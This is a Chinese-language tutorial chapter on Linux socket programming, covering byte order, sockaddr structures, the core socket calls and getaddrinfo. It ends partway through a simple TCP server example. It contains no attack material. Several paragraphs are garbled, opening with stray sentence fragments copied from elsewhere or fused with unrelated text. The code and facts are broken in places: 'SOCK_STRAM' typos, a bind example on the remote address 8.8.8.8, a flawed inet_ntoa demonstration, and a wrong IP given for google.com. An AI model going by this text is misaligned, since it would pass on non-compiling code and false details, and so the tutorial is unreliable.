    既然刚才提到了协议层, 那么现在是讨论网络究竟如何工作和一些关于 SOCK_DGRAM 包是如何建立
    的例子. 当然, 你也可以跳过这一段, 如果你认为已经熟悉的话. 现在是学习数据封装 (Data 
    Encapsulation) 的时候了! 它非常非常重要. 它重要性重要到你在网络课程学习中无论如何也得也
    得掌握它. 主要的内容是: 一个包, 先是被第一个协议(在这里是 TFTP) 在它的报头 (也许是报尾)
    包装("封装"), 然后, 整个数据(包括 TFTP 头)被另外一个协议(在这里是 UDP)封装, 然后下一个
    (IP), 一直重复下去, 直到硬件(物理)层(这里是以太网). 当另外一台机器接收到包, 硬件先剥去
    以太网头, 内核剥去 IP 和 UDP 头, TFTP 程序再剥去 TFTP 头, 最后得到数据.

    此刻我们终于讲到声名狼藉的网络分层模型(LayeredNetwork Model). 这种网络模型在描述网络系
    统上相对其它模型有很多优点. 例如, 你可以写一个套接字程序而不用关心数据的物理传输(串行口,
    以太网, 连接单元接口 AUI 还是其它介质), 因为底层的程序会为你处理它们. 实际的网络硬件和
    拓扑对于程序员来说是透明的. 不说其它废话了, 现在列出整个层次模型. 如果你要参加网络考试, 
    可一定要记住:
        应用层      (Application)
        表示层      (Presentation)
        会话层      (Session)
        传输层      (Transport)
        网络层      (Network)
        数据链路层  (Data Link)
        物理层      (Physical)
    物理层是硬件(串口, 以太网等等). 应用层是和硬件层相隔最远的, 它是用户和网络交互的地方. 
    这个模型如此通用, 如果你想, 你可以把它作为修车指南. 把它对应到 linux 映射是:
        应用层      (Application Layer) (telnet, ftp, 等等)
        传输层      (Host-to-Host Transport Layer) (TCP, UDP)
        Internet 层 (Internet Layer) (IP和路由)
        网络访问层  (Network Access Layer) (网络层，数据链路层和物理层)
    现在, 你可能看到这些层次如何协调来封装原始的数据了. 看看建立一个简单的数据包有多少工作
    ? 哎呀, 你将不得不使用 "cat" 来建立数据包头! 这仅仅是个玩笑. 对于流式套接字你要作的是
    send() 发送数据. 对于数据报式套接字, 你按照你选择的方式封装数据然后使用 sendto(). 内
    核将为你建立传输层和 Internet 层, 硬件完成网络访问层. 这就是现代科技, 现在结束我们的
    网络理论速成班. 哦, 忘记告诉你关于路由的事情了. 但是我不准备谈它, 如果你真的关心, 那
    你可以自行搜阅 RFC 相关的协议定义部分.

### 7.2.2 编程前奏

**结构体**

    终于快谈到编码了. 在这小节, 我将谈到被套接字用到的各种数据类型. 因为它们中的一些内容
    很重要. 首先是简单的一个 socket 描述符. 它在 unix 类系统的类型是 int, 仅仅是一个常
    见的 int. 从现在起, 事情变得不可思议了, 而你所需做的就是继续看下去. 注意这样的事实:
    
    有两种字节排列顺序: 重要的字节(有时叫 octet, 即八位位组)在前面, 或者不重要的字节在
    前面. 前一种叫"网络字节顺序(Network Byte Order)". 有些机器在内部是按照这个顺序储存
    数据, 而另外一些则不然. 当我说某数据必须按照 NBO 顺序, 那么你要调用函数(例如 htons)
    来将它从本机字节顺序(Host Byte Order)转换过来. 如果我没有提到 NBO, 那么就让它保持本
    机字节顺序. 介绍的第一个结构 struct sockaddr. 这个结构为许多类型的套接字储存套接字
    地址信息:

```C
struct sockaddr {
    unsigned short sa_family;
    char sa_data[14];
};
```
    sa_family 能够是各种各样的类型, 但是在这篇文章中都是 AF_INET. sa_data 包含套接字中
    的目标地址和端口信息. 这好像有点不明智. 为了处理 struct sockaddr, 程序员创造了一个
    并列的结构: struct sockaddr_in("in" 代表 "Internet")

```C
struct sockaddr_in {
    short int sin_family;
    unsigned short int sin_port;
    struct in_addr sin_addr;
    unsigned char sin_zero[8];
};
```

    用这个数据结构可以轻松处理套接字地址的基本元素. 注意 sin_zero (它被加入到这个结构中, 
    主要为了 struct sockaddr_in 长度和 struct sockaddr 保持一样) 应该使用函数 memset
    来全部置零. 同时, 这一重要的字节, 一个指向 sockaddr_in 结构体的指针也可以被指向结构
    体 sockaddr 并且代替它. 这样的话即使 socket 想要的是 struct sockaddr, 你仍然可以
    使用 struct sockaddr_in, 函数内部会转换. 同时, 注意 sin_family 要一致并能够设置为 
    "AF_INET". 最后, sin_port 和 sin_addr 必须是网络字节顺序 (Network Byte Order)!

    你也许会反驳道: "但是, 怎么让整个数据结构 struct in_addr sin_addr 按照网络字节顺
    序呢?" 要知道这个问题的答案, 我们就要仔细的看一看这个数据结构: 

```C
/* Internet address.  */
typedef uint32_t in_addr_t;

struct in_addr {
    in_addr_t s_addr;
};
```

    它曾经是个最坏的联合(知道的都是有点年头了, 哎), 但是现在那些日子过去了. 如果你声明 
    ina 是数据结构 struct sockaddr_in 的实例, 那么 ina.sin_addr.s_addr 就储存 4 字
    节的 IP 地址(使用网络字节顺序). 如果你不幸的系统使用的还是同下面相似的恐怖联合 
    struct in_addr, 你还是可以放心 4 字节的 IP 地址并且和上面我说的一样.

```C
#ifndef s_addr
/*
 * Internet address (old style... should be updated)
 */
struct in_addr {
        union {
                struct { u_char s_b1,s_b2,s_b3,s_b4; } S_un_b;
                struct { u_short s_w1,s_w2; } S_un_w;
                u_long S_addr;
        } S_un;
#define s_addr  S_un.S_addr
                                /* can be used for most tcp & ip code */
#define s_host  S_un.S_un_b.s_b2
                                /* host on imp */
#define s_net   S_un.S_un_b.s_b1
                                /* network */
#define s_imp   S_un.S_un_w.s_w2
                                /* imp */
#define s_impno S_un.S_un_b.s_b4
                                /* imp # */
#define s_lh    S_un.S_un_b.s_b3
                                /* logical host */
};
#endif
```

**本机转换**

    用这个数据结构可以轻松处理套接字地址的基本元素. 注意 sin_zero (它被加入到这个结构中,
    我们现在讲了很多网络到本机字节顺序的转换, 现在可以实践了! 你能够转换两种类型: short 
    (两个字节) 和 uint32_t (四个字节). 假设你想将 short 从本机字节顺序转换为网络字节顺
    序. 用 "h" 表示 "本机 (host)", 接着是 "to", 然后用 "n" 表示 " 网络 (network)", 最
    后用 "s" 表示 "short": h-to-n-s, 或者 htons() ("Host to Network Short"). 是不是
    太简单了.

    如果不是太傻的话, 你一定想到了由 "n", "h", "s", 和 "l" 形成的正确组合, 例如这里肯定
    没有 stolh() ("Short to Long Host") 函数, 不仅在这里没有, 所有场合都没有. 但是这里
    有:
        htons() -- "Host to Network Short"
        htonl() -- "Host to Network Long"
        ntohs() -- "Network to Host Short"
        ntohl() -- "Network to Host Long"
    现在, 你可能想你已经知道它们了. 你也可能想: "如果我想改变 char 的顺序要怎么办呢?" 但
    是你也许马上就意识到这用不着考虑的, 因为只有一个字节. 你也许会想到: 我的 IBM 机器已经
    使用了网络字节顺序, 我没有必要去调用 htonl() 转换 IP 地址. 此刻你可能是对的, 但是当
    你移植你的程序到别的机器上的时候, 你的程序将失败. 可移植性! 这里是 linux 世界! 记住: 
    在你将数据放到网络上的时候, 确信它们是网络字节顺序的. 最后一点: 为什么在数据结构 
    struct sockaddr_in 中 sin_addr 和 sin_port 需要转换为网络字节顺序, 而 sin_family 
    需不需要呢? 答案是: sin_addr 和 sin_port 分别封装在包的 IP 和 UDP 层. 因此, 它们必
    须要是网络字节顺序. 但是 sin_family 没有发送到网络上, 它们可以是本机字节顺序. 最主要
    的是 sin_family 域只是被内核(kernel)使用来决定在数据结构中包含什么类型的地址, 所以它
    必须是本机字节顺序.

**如何处理 IP 地址**

    现在我们很幸运, 因为我们有很多的函数来方便地操作 IP 地址. 没有必要用手工计算它们, 也
    没有必要用 "<<" 操作来储存成长整字型. 首先, 假设你已经有了一个 sockaddr_in 结构体 
    ina, 你有一个 IP 地址 "8.8.8.8" 要储存在其中, 你就要用到函数 inet_addr(), 将 IP 
    地址从点数格式转换成无符号长整型. 使用方法如下：
        ina.sin_addr.s_addr = inet_addr("8.8.8.8");
    注意, inet_addr() 返回的地址已经是网络字节格式, 所以你无需再调用函数 htonl(). 我们
    现在发现上面的代码片断不是十分完整, 因为它没有错误检查. 显而易见, 当 inet_addr() 发
    生错误时返回 -1. 记住这些二进制数字? (无符号数) -1 仅仅和 IP 地址 255.255.255.255 
    相符合! 这可是广播地址! 这将会发生大错误! 记住要先进行错误检查. 好了, 现在你可以将 
    IP 地址转换成长整型了. 有没有其相反的方法呢? 它可以将一个 in_addr 结构体输出成点数格
    式? 这样的话, 你就要用到函数 inet_ntoa()("ntoa" 的含义是 "network to ascii"), 就
    像这样:
        printf("%s", inet_ntoa(ina.sin_addr));
    它将输出 IP 地址. 需要注意的是 inet_ntoa() 将结构体 in_addr 作为一个参数, 不是长整
    形. 同样需要注意的是它返回的是一个指向一个字符的指针. 它是一个由 inet_ntoa() 控制的
    静态的指向固定内存的指针, 所以每次调用 inet_ntoa(), 它就将覆盖上次调用时所得的 IP 地
    址. 例如:
        char * a, * b;
        a = inet_ntoa(ina.sin_addr);
        b = inet_ntoa(inb.sin_addr);
        printf("address a: %s/n", a);
        printf("address b: %s/n", a);
    输出如下:
    address a: 8.8.8.8
    address b: 8.8.8.8
    以上在学习阶段或者是单线程程序中是没有任何问题的. 然而真实环境更加友好的推荐是:

```C
#include <arpa/inet.h>

// inet_pton 若成功返回1, 0 表示输入不是有效的表达式, -1 表示出错
int inet_pton(int family, const char * strptr, void * addrptr);
      
// inet_ntop 若成功返回指向结果的指针, NULL 表示出错
const char * inet_ntop(int family, 
                       const void * addrptr, 
                       char * strptr, size_t len);
```

    好了, 那这个主题就介绍这些, 随后逐步开展编程工作. 

### 7.2.3 编程中常见 API

**socket() 函数**

    我想我不能再不提这个了, 下面我将讨论一下 socket() 系统调用详细介绍.

```C
#include <sys/types.h>
#include <sys/socket.h>

#define PF_UNIX         AF_UNIX
#define PF_INET         AF_INET

int socket(int domain, int type, int protocol);
```

    现在发现上面的代码片断不是十分完整, 因为它没有错误检查. 显而易见, 当 inet_addr() 
    发那其中的参数是什么? 首先, domain 应该设置成 "PF_INET", 就像上面的数据结构 
    struct sockaddr_in 中一样. 然后, 参数 type 告诉内核是 SOCK_STREAM 类型还是 
    SOCK_DGRAM 类型. 最后, 把 protocol 设置为 "0". (注意: 有很多种 domain, type
    , 我不可能一一列出了, 请看 socket() 的 man 帮助. 当然, 还有一个更好的方式去得到 
    protocol. 同时请查阅 getprotobyname() 的 man 帮助) 常用例子

```C
// 使用系统针对 IPv4 与字节流的默认的协议，一般为 TCP
int sockfd = socket(PF_INET, SOCK_STRAM, IPPROTO_TCP);
// 使用 STCP 作为协议
int sockfd = socket(PF_INET, SOCK_STRAM, IPPROTO_SCTP);
// 使用数据报 作为协议
int sockfd = socket(PF_INET, SOCK_DGRAM, IPPROTO_UDP);
```

    socket() 只是返回你以后在系统调用种可能用到的 socket 描述符, 错误的时候返回 -1. 
    全局变量 errno 中将储存返回的错误值(请参考 perror() 的man 帮助).

**bind() 函数**

    一旦你有一个套接字, 你可能要将套接字和机器上的固定的端口关联起来. (如果你想用 
    listen() 来侦听固定端口的数据, 这是必要一步 -- MUD 告诉你说用命令 
    "telnet x.y.z.w 6969".) 如果你只想用 connect(), 那么这个步骤将没有必要. 但是
    无论如何, 请继续读下去. 这里是系统调用 bind() 的大概:

```C
#include <sys/types.h>
#include <sys/socket.h>

int bind(int sockfd, struct sockaddr * my_addr, int addrlen);
```

    sockfd 是调用 socket 返回的文件描述符. my_addr 是指向 struct sockaddr 数据
    结构的指针, 它保存你的地址(即端口和 IP)信息. addrlen 设置为 
    sizeof(struct sockaddr). 很简单不是吗? 再看看例子:

```C
#include <string.h>
#include <sys/types.h>
#include <sys/socket.h>

#define PORT_SHORT	(8088)

int main(void) {
    int sockfd = socket(PF_INET, SOCK_STREAM, IPPROTO_TCP);

    struct sockaddr_in my_addr;
    my_addr.sin_family = AF_INET;
    my_addr.sin_port = htons(PORT_SHORT);
    my_addr.sin_addr.s_addr = inet_addr("8.8.8.8");
    memset(&my_addr.sin_zero, 0, sizeof(my_addr.sin_zero));
    bind(sockfd, (struct sockaddr *)&my_addr, sizeof(struct sockaddr_in));
    ... ...
}
```

    这里也有要注意的点. my_addr.sin_port 是网络字节顺序, my_addr.sin_addr.s_addr
    也是的, 其中 my_addr.sin_zero 需要置零防止脏数据污染, 其实是一种历史约束约束. 在
    bind() 主题中最后要说的话是, 如果自己不想绑定固定地址, 让操作系统自行分配. 可以用
    下面方式处理.
        my_addr.sin_port = 0;                   // 自行分配绑定的端口
        my_addr.sin_addr.s_addr = INADDR_ANY;   // 绑定所有网卡
    通过将 0 赋给 my_addr.sin_port, 会告诉 bind() 自己选择合适的端口. 相似的服务器
    将 my_addr.sin_addr.s_addr 设置为 INADDR_ANY 后,

```C
/* Address to accept any incoming messages. */
#define INADDR_ANY  ((in_addr_t) 0x00000000)
```

    会告诉操作系统: "我需要在 prot 端口上侦听, 所有发送到服务器的这个端口, 不管是哪个
    网卡/哪个 IP 地址接收到的数据, 都是我处理的." 

    bind() 出错的时候依然是返回 -1, 并且设置全局错误变量 errno. 在你调用 bind() 的
    时候, 你要小心的另一件事情是: 不要绑定小于 1024 和大于 49151 的端口号. 所有小于 
    1024 的端口号都被系统保留! 更加详细的参照资料是系统端口号分为三大类, 一已知端口
    [0, 1023], 二注册端口[1024, 49151], 三动态专用端口[49152, 65535]. 理论上我
    们服务器业务程序只能绑定注册端口[1024, 49151]中尚未被别的程序使用的. 当然我们一直
    在说服务器, 如果是客户端在和远端机器进行通讯. 你完全没有必要 bind() 操作, 只需要
    轻轻 connect() 它一下就可以了啦.

**connect() 函数**

        华山派除了练气的华山剑法, 还曾有一本被遗忘的神功, 紫霞神功. 也许正是靠它, 当年
    你正在阅读的 connect() 能够帮我们连接到远程主机. 希望不会让你的用户失望. 
    connect() 系统调用是这样的: 

```C
#include <sys/types.h>
#include <sys/socket.h>

int connect(int sockfd, struct sockaddr * serv_addr, int addrlen);
```

    sockfd 是系统调用 socket() 返回的套接字文件描述符. serv_addr 是保存着目的地端口
    和 IP 地址的数据结构 struct sockaddr. addrlen 设置为你采用的地址结构长度, 例如 
    sizeof(struct sockaddr). 想知道得更多吗? 让我们来看个例子:

```C
#include <string.h>
#include <sys/types.h>
#include <sys/socket.h>

#define IP_STR		"8.8.8.8"
#define PORT_SHORT	(8088)

int main(void) {
    int sockfd = socket(PF_INET, SOCK_STREAM, IPPROTO_TCP);

    struct sockaddr_in addr;
    addr.sin_family = AF_INET;
    addr.sin_port = htons(PORT_SHORT);
    addr.sin_addr.s_addr = inet_addr(IP_STR);
    memset(&addr.sin_zero, 0, sizeof(addr.sin_zero));

    connect(sockfd, (struct sockaddr *)&addr, sizeof addr);
    ... ...
}
```

    再一次，你应该检查 connect() 的返回值 - 它在错误的时候返回 -1, 并设置全局错误变
    量 errno. 
    
    同时, 你可能看到, 我没有调用 bind(). 因为我不在乎本地的端口号. 我只关心我要去那.
    内核将为我选择一个合适的端口号, 而我们所连接的地方也自动地获得这些信息. 一切都不用
    担心.

**listen() 函数**

    是换换内容的时候了. 假如你不希望与远程的一个地址相连, 或者说, 仅仅是将它踢开, 那
    你就需要等待接入请求并且用各种方法处理它们. 处理过程分两步: 首先, 你监听 
    listen(), 然后, 你接收 accept(). 除了要些解释外, 系统调用 listen 也简单.

```C
#include <sys/types.h>
#include <sys/socket.h>

/* Prepare to accept connections on socket FD.
   N connection requests will be queued before 
   further requests are refused.
   Returns 0 on success, -1 for errors. 
 */
extern int listen (int sockfd, int backlog);
```

    sockfd 是调用 socket() 返回的套接字文件描述符. backlog 是在进入队列中允许的
    连接数目. 什么意思呢? 进入的连接是在队列中一直等待直到你接收 (accept() 请看下
    面内容)连接. 它们的数目限制于已经完成三次握手队列的允许. 你可以设置这个值, 但是
    最终用不用是系统决定. 和别的函数一样, 在发生错误的时候返回 -1, 并设置全局错误变
    量 errno. 你可能想象到了, 在你调用 listen() 前你或者要调用 bind() 或者让内
    核选择一个自动端口. 如果你想侦听进入的连接, 那么系统调用的顺序可能是这样的:
        socket();
        bind();
        listen();
    因为它相当的明了, 我将在这里不给出例子了.

**accept() 函数**

    准备好了, 系统调用 accept() 会有点古怪的地方的! 你可以想象发生这样的事情: 有
    人从很远的地方通过一个你在侦听 listen() 的端口连接 connect() 到你的机器. 它
    的连接将加入到等待接收 accept() 的队列中. 你调用 accept() 告诉它你有空闲的
    连接. 它将返回一个新的套接字文件描述符! 这样你就多了个套接字了, 原来的一个还在
    侦听你的那个端口, 新的在准备发送 send() 和接收 recv() 数据. 这就是进行的过
    程! 函数是这样定义的:

```C
#include <sys/types.h>
#include <sys/socket.h>

/* Await a connection on socket FD.
   When a connection arrives, open a new socket 
   to communicate with it, set *ADDR (which is *ADDR_LEN bytes long) 
   to the address of the connecting peer and *ADDR_LEN to 
   the address's actual length, and return the
   new socket's descriptor, or -1 for errors.

   This function is a cancellation point and therefore not 
   marked with __THROW.  
 */
extern int accept (int sockfd, 
                   struct sockaddr * addr,
		           socklen_t * restrict addr_len);
```

    sockfd 相当简单, 是和 listen() 中一样的套接字描述符. addr 可以是个指向局部的数据结
    构 sockaddr_in 的指针. 这是要求接入的信息所要去的地方. 在它的地址传递给 accept 之
    前, addr_len 是指向局部的整形变量, 且指向的变量值为 sizeof(struct sockaddr_in). 
    accept 将不会将多余的字节给 addr. 如果你放入的少些, 那么它会通过改变 addr_len 的值
    反映出来. 需要注意的是 addr_len 即是输入也是输出参数, 开始之前可以写成
        int addrlen = sizeof(struct sockaddr_in); 
    后面传入 &addrlen. 同样, 在错误时返回 -1, 并设置全局错误变量 errno. 现在要展示的是
    你应该熟悉的代码片段.

```C
#include <string.h>
#include <sys/types.h>
#include <sys/socket.h>

#define PORT_SHORT		(8088)

int main(void) {
    struct sockaddr_in saddr, caddr;
    int clen = sizeof(struct sockaddr_in);

    int sockfd = socket(PF_INET, SOCK_STREAM, IPPROTO_TCP);

    saddr.sin_family = AF_INET;
    saddr.sin_port = htons(PORT_SHORT);
    saddr.sin_addr.s_addr = INADDR_ANY;
    memset(&saddr.sin_zero, 0, sizeof(saddr.sin_zero));

    bind(sockfd, (struct sockaddr *)&saddr, clen);
    listen(sockfd, SOMAXCONN);

    int nfd = accept(sockfd, &caddr, &clen);
    ... ...
}
```

    注意, 此后的系统中可以调用 send() 和 recv() . 如果你只想让一个连接进来, 那么你可以
    使用 close() 去关闭原来的文件描述符 sockfd 来避免同一个端口更多的连接.

**send() 和 recv() 函数**

    这两个函数用于流式套接字或者数据报套接字的通讯. 如果你喜欢使用无连接的数据报套接字, 
    你应该看一看下面关于 sendto() 和 recvfrom() 的章节. send() 是这样的:

```C
#include <sys/types.h>
#include <sys/socket.h>

/* Send N bytes of BUF to socket FD.  Returns the number sent or -1.

   This function is a cancellation point and therefore not marked with
   __THROW.  */
extern ssize_t send (int sockfd, const void * buf, size_t len, int flags);
```

    sockfd 是你想发送数据的套接字描述符(或者是调用 socket() 或者是 accept()返回的) 
    buf 是指向你想发送的数据的指针. len 是数据的长度. 把 flags 设置为 0 就可以了. (
    详细的资料请看 send() 的 man page). 这里是可能的例子：

```C
char * msg = "I am here!";
int len = (int)strlen(msg);
int size = (int)send(sockfd, msg, len, 0);
```

    send() 返回实际发送的数据的字节数 - 它可能小于你要求发送的数目! 注意, 有时候你告诉
    它要发送一堆数据可是它不能处理成功. 它只是发送它可能发送的数据, 然后希望你能够发送其
    它的数据. 记住, 如果 send() 返回的数据和 len 不匹配, 你就应该发送其它的数据. 但是
    这里也有个好消息: 如果你要发送的包很小(小于大约 1K), 它可能处理让数据一次发送完. 最
    后要说得就是, 它在错误的时候返回 -1, 并设置 errno. recv() 函数很相似:

```C
/* Read N bytes into BUF from socket FD.
   Returns the number read or -1 for errors.

   This function is a cancellation point and therefore not marked with
   __THROW.  */
extern ssize_t recv (int sockfd, void * buf, size_t len, int flags);
```

    sockfd 是要读的套接字描述符. buf 是要读的信息的缓冲. len 是缓冲的最大长度. flags 
    可以设置为 0. (请参考 recv() 的 man page) recv() 返回实际读入缓冲的数据的字节数. 
    或者在错误的时候返回-1, 同时设置 errno.
    
    很简单，不是吗? 你现在可以在流式套接字上发送数据和接收数据了. 此刻你就是是 linux 网
    络程序员了!

**sendto() 和 recvfrom() 函数**

    "这很不错啊", 你说, "但是你还没有讲无连接数据报套接字呢?" 没问题, 现在我们开始这个
    内容. 既然数据报套接字不是连接到远程主机的, 那么在我们发送一个包之前需要什么信息呢?
    不错, 是目标地址! 看看下面的:

```C
#include <sys/types.h>
#include <sys/socket.h>

/* Send N bytes of BUF on socket FD to peer at address ADDR (which is
   ADDR_LEN bytes long).  Returns the number sent, or -1 for errors.

   This function is a cancellation point and therefore not marked with
   __THROW.  */
extern ssize_t sendto (int sockfd, const void * buf, size_t len,
                       int flags, 
                       const struct sockaddr * addr, 
                       socklen_t addr_len);

/* Read N bytes into BUF through socket FD.
   If ADDR is not NULL, fill in *ADDR_LEN bytes of it with tha address of
   the sender, and store the actual size of the address in *ADDR_LEN.
   Returns the number of bytes read or -1 for errors.

   This function is a cancellation point and therefore not marked with
   __THROW.  */
extern ssize_t recvfrom (int sockfd, const void * restrict buf, size_t len,
                         int flags, 
                         struct sockaddr * restrict addr, 
                         socklen_t * restrict addr_len);
```

    你已经看到了, 除了另外的两个信息外, 其余的和函数 send() 是一样的. addr 是个指向数
    据结构 struct sockaddr 的指针, 它包含了目的地的 IP 地址和端口信息. addr_len 可以
    简单地设置为 sizeof(struct sockaddr). 和函数 send() 类似, sendto() 返回实际发送
    的字节数(它也可能小于你想要发送的字节数!), 或者在错误的时候返回 -1. 相似的还有函数
    recv() 和 recvfrom(). recvfrom() 的定义也在上面. 又一次, 除了两个增加的参数外, 
    这个函数和 recv() 也是一样的. addr 也是个指向局部数据结构 struct sockaddr 的指针,
    它的内容是源机器的 IP 地址和端口信息. addr_len 是个 socklen_t 型的局部指针, 它的
    初始值为 sizeof(struct sockaddr). 函数调用返回后, addr_len 保存着实际储存在 addr
    中的地址的长度. recvfrom() 返回收到的字节长度, 或者在发生错误后返回 -1. 记住, 如果
    你用 connect() 连接一个数据报套接字, 你可以简单的调用 send() 和 recv() 来满足你的
    要求. 这个时候依然是数据报套接字, 依然使用 UDP, 系统套接字接口会为你自动加上了目标
    和源的信息.

**close() 和 shutdown() 函数**

    你已经整天都在发送 send() 和接收 recv() 数据了, 现在你准备关闭你的套接字描述符了. 
    这很简单, 你可以使用一般的 linux 文件描述符 的 close() 函数：

```C
#include <unistd.h>

/* Close the file descriptor FD.

   This function is a cancellation point and therefore not marked with
   __THROW.  */
extern int close (int fd);
```

    它将防止套接字上更多的数据的读写. 任何在另一端读写套接字的企图都将返回错误信息. 如
    果你想在如何关闭套接字上有多一点的控制, 你可以使用函数 shutdown(). 它允许你将一定
    方向上的通讯或者双向的通讯(就象 close() 一样)关闭, 你可以使用:

```C
#include <sys/types.h>
#include <sys/socket.h>

/* Shut down all or part of the connection open on socket FD.
   HOW determines what to shut down:
     SHUT_RD   = No more receptions;
     SHUT_WR   = No more transmissions;
     SHUT_RDWR = No more receptions or transmissions.
   Returns 0 on success, -1 for errors.  */
extern int shutdown (int sockfd, int how);
```

    sockfd 是你想要关闭的套接字文件描述复. how 的值是下面的其中之一:

```C
/* The following constants should be used for the second parameter of
   `shutdown'.  */
enum
{
  SHUT_RD = 0,		/* No more receptions.  */
#define SHUT_RD		SHUT_RD
  SHUT_WR,		/* No more transmissions.  */
#define SHUT_WR		SHUT_WR
  SHUT_RDWR		/* No more receptions or transmissions.  */
#define SHUT_RDWR	SHUT_RDWR
};
```
    其实含义如下
    0 - 不允许接受
    1 - 不允许发送
    2 - 不允许发送和接受 (内部资源会保留直到 close())
    shutdown() 成功时返回 0, 失败时返回 -1 (同时设置 errno) 如果在无连接的数据报套接
    字中使用 shutdown(), 那么只不过是让 send() 和 recv() 不能使用(记住你在数据报套接
    字中使用了 connect() 后是可以使用它们哦)

**getpeername() and gethostname() 函数**

    这个函数太简单了. 它太简单了, 以至我只想简单说说. 函数 getpeername() 告诉你在连接
    的流式套接字上谁在另外一边. 函数是这样的:

```C
#include <sys/socket.h>

/* Put the address of the peer connected to socket FD into *ADDR
   (which is *LEN bytes long), and its actual length into *LEN.  */
extern int getpeername (int sockfd, 
                        struct sockaddr * restrict addr,
			            socklen_t * restrict addr_len);
```

    sockfd 是连接的流式套接字的描述符. addr 是一个指向结构 struct sockaddr 内存布局
    的的指针, 它保存着连接的另一边的信息. addr_len 是一个 int 型的指针, 它初始化值为 
    sizeof(struct sockaddr). 函数在错误的时候返回 -1, 设置相应的 errno. 一旦你获得
    它们的地址, 你就可以用 inet_ntop(), getnameinfo() 或 gethostbyaddr() 打印或取
    得更多信息 (多自行 Search, 别打作者 :). 此刻比 getpeername() 还简单的函数是 
    gethostname(). 它返回你程序所运行的机器的主机名字. 

```C
#include <unistd.h>

/* Put the name of the current host in no more than LEN bytes of NAME.
   The result is null-terminated if LEN is large enough for the full
   name and the terminator.  */
extern int gethostname (char * name, size_t len);
```

    参数很简单: name 是一个字符数组指针, 它将在函数返回时保存主机名. len 是 name 数
    组的字节长度. 函数调用成功时返回 0, 失败时返回 -1, 并设置 errno.

### 7.2.4 编程操练, 道阻且长

**DNS 域名服务**

    如果你不知道 DNS 的意思, 那么我告诉你, 它代表域名服务 (Domain Name Service). 它
    主要的功能是: 你给它一个容易记忆的某站点的地址, 它给你 IP 地址(然后你就可以使用 
    bind(), connect(), sendto() 或者其它函数). 当一个人输入:
    $ telnet www.google.com
    (可以用 dig 指令来看域名的 ip [dig uri])
    telnet 能知道它将连接(connect()) 到 "31.13.74.1". 但是这是如何工作的呢? 你可以研
    究 getaddrinfo() 这类函数, 先看演示吧.

```C
#include <sys/types.h>
#include <sys/socket.h>
#include <arpa/inet.h>
#include <netdb.h>
#include <stdio.h>

// test getaddrinfo 地址打印
static void test(const char * restrict name) {
    struct addrinfo * a = NULL;
    int r = getaddrinfo(name, NULL, NULL, &a);
    if (r < 0) {
        fprintf(stderr, "%s error(%d) = %s\n", name, r, gai_strerror(r));
        return;
    }

    char ip[INET6_ADDRSTRLEN];
    for (struct addrinfo * u = a; (u) ; u = u->ai_next) {
        void * addr;

        if (u->ai_family == AF_INET)
            addr = &((struct sockaddr_in *)(u->ai_addr))->sin_addr;
        else
            addr = &((struct sockaddr_in6 *)(u->ai_addr))->sin6_addr;
        

        if (!inet_ntop(u->ai_family, addr, ip, sizeof ip)) {
            fprintf(stderr, "%s family = %d\n", name, u->ai_family);
            freeaddrinfo(a);
            return;
        }

        printf("flags = 0x%x, family = %2d, socktype = %d, protocol = %2d, %s\n",
               u->ai_flags, u->ai_family, u->ai_socktype, u->ai_protocol, ip);
    }

    freeaddrinfo(a);
}

//
// getaddringo 构建
//
int main(int argc, char * argv[]) {
    for (int i = 1; i < argc; ++i) {
        test(argv[i]);
    }
    return 0;
}
```


    sockfd 是连接的流式套接字的描述符. addr 是一个指向结构 struct sockaddr 内存布局
    输出中可能对 flags, family, socktype, protocol 有些不明觉厉. 可以参看下面解释.

```C
//
// netdb.h
// 
// [ai_flags]
// # define AI_PASSIVE      0x0001	/* Socket address is intended for `bind'.  */
// # define AI_CANONNAME    0x0002	/* Request for canonical name.  */
// # define AI_NUMERICHOST  0x0004	/* Don't use name resolution.  */
// # define AI_V4MAPPED     0x0008	/* IPv4 mapped addresses are acceptable.  */
// # define AI_ALL          0x0010	/* Return IPv4 mapped and IPv6 addresses.  */
// # define AI_ADDRCONFIG   0x0020	/* Use configuration of this host to choose */
//

//
// sys/types.h
// 
// [ai_family]
// #define PF_INET      2   /* IP protocol family.   */
// #define PF_NETROM    6   /* Amateur radio NetROM. */
//
// #define AF_INET      PF_INET
// #define AF_INET6     PF_INET6
//
// [ai_socktype]
// SOCK_STREAM  = 1,    /* Sequenced, reliable, connection-based byte streams. */
// #define SOCK_STREAM  SOCK_STREAM
// SOCK_DGRAM   = 2,	/* Connectionless, unreliable datagrams of fixed maximum length. */
// #define SOCK_DGRAM   SOCK_DGRAM
// SOCK_RAW     = 3,    /* Raw protocol interface. */
// #define SOCK_RAW     SOCK_RAW
//
// [ai_protocol]
// IPPROTO_TCP = 6,         /* Transmission Control Protocol. */
// #define IPPROTO_TCP		IPPROTO_TCP
//
// #define IPPROTO_PUP		IPPROTO_PUP
// IPPROTO_UDP = 17,        /* User Datagram Protocol. */
//
```

**客户端和服务器通信**

    sockfd 是连接的流式套接字的描述符. addr 是一个指向结构 struct sockaddr 内存布局
    客户端和服务端通信这个太普遍了, 例如我们上网通过浏览器客户端同对应的服务器交互. 举
    个 telnet 的例子. 当你用 telnet 客户端通过 23 号端口登陆到主机, 主机上运行的一个
    一般叫 telnetd 程序被激活. 它处理这个连接, 进入交互流程. 注意, 客户端--服务器之间
    可以使用 SOCK_STREAM, SOCK_DGRAM 或者其它协议(只要双方约定是相同的). 这里为大家
    搜集一种简单编码流程图. 那我们开始编码吧.


先服务器

    这个服务器所做的全部工作是在流式连接上发送字符串 "Hello, World!\n" 给客户端. 你
    要测试这个程序的话, 可以使用 telnet [ip] [port] 来看最终结果.

```C
#include <stdio.h>
#include <errno.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/wait.h>
#include <arpa/inet.h>
#include <sys/types.h>

#define PORT_USHORT	(8088u)
#define HELLO_STR	"Hello World!\n"

#define IF(code)                    \
if((code) < 0)                      \
perror(#code), exit(EXIT_FAILURE)

//
// simple server send heoo to client
//
int main(int argc, char * argv[]) {
	int sfd;
	IF(sfd = socket(PF_INET, SOCK_STREAM, IPPROTO_TCP));

	struct sockaddr_in addr = {
        .sin_family = AF_INET,
        .sin_port = htons(PORT_USHORT),
    };
	IF(bind(sfd, (struct sockaddr *)&addr, sizeof addr));

	//监听一下
	IF(listen(sfd, SOMAXCONN));

	// 采用单进程处理客户端链接请求
	for (;;) {
		int cfd, fd;
		struct sockaddr_in cddr;
		socklen_t cen = sizeof cddr;
		IF(cfd = accept(sfd, (struct sockaddr *)&cddr, &cen));

		// 输出客户端信息
